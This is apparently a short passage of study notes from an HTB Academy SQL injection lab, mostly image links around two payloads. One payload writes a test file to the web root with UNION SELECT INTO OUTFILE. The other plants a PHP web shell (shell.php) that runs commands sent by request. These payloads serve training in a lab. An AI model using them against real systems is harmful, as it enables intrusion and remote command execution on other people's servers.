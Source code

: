 
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-42.png)

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-43.png)

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-44.png)
